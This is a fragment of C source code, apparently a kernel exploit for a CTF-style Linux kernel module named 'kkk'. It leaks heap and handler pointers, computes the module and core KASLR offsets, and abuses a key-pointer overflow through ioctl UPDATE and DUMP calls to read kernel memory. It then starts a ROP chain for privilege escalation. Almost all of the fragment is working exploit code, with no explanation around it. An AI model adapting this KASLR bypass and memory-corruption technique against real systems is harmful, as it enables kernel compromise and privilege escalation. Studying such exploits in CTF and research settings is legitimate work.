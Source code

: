 ```c
        goto leave;
    }

    // since keylength is 450
    //       data is 14
    struct kkk_obj *obj = keybuf + 450 + 14;
    printf("leaked:\n");
    printf("key heap address: 0x%lx\n", obj->keypack.ptr);
    printf("data heap address: 0x%lx\n", obj->datapack.ptr);
    printf("handler adddress: 0x%lx\n", obj->handler);

    unsigned long module_kaslroffset = obj->handler - 0xffffffffc0000510ul;
    printf("module kaslr offset: 0x%lx\n", module_kaslroffset);

    unsigned long module_load_address = 0xffffffffc0000000ul + module_kaslroffset;
    printf("module loaded at: 0x%lx\n", module_load_address);

    unsigned long kkk_fops_address = 0xffffffffc0001180ul + module_kaslroffset;
    unsigned long kkk_fops_size = 16; // 16 is enough

    // we hence exploit third chunks key and data ptr to read kkk_fops
    char updatedkey[0x3fe] = {0};
    // key size
    memcpy(updatedkey + 450 + 14 + 0, &kkk_fops_size, 8);
    // overflow key pointer
    memcpy(updatedkey + 450 + 14 + 8, &kkk_fops_address, 8);

    other_arg.id = 1;
    other_arg.key.ptr = updatedkey;
    other_arg.data.ptr = data;

    r = ioctl(fd, KKK_IOCTL_UPDATE, &other_arg);
    if (r < 0)
    {
        perror("KKK_IOCTL_UPDATE");
        goto leave;
    }

    other_arg.id = 2;
    other_arg.key.ptr = key;
    other_arg.data.ptr = data;

    r = ioctl(fd, KKK_IOCTL_DUMP, &other_arg);
    if (r < 0)
    {
        perror("KKK_IOCTL_DUMP");
        goto leave;
    }

    unsigned long no_llseek_address;
    memcpy(&no_llseek_address, key + 8, 8);
    printf("no_llseek address: 0x%lx\n", no_llseek_address);

    if (no_llseek_address == 0) // buggy hence drop
        goto leave;

    unsigned long kaslroffset = no_llseek_address - 0xffffffff812258e0ul;
    printf("core KASLR offset: 0x%lx\n", kaslroffset);

    // recover third chunk key size and data ??? need to?
    // starts ROP 
    save_state();
    
```